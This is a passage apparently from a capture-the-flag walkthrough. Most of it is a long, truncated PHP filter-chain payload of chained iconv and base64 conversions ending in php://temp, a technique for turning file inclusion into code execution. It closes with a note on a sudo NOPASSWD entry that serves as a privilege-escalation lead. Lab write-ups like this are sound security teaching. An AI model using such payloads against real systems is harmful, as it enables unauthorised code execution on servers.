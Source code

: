 ```Bash
t.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp"
}
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230309093207.png)

- Running `sudo -l` immediately presents us with `(svc) NOPASSWD: /var/www/image/scripts/git-commit.sh`.
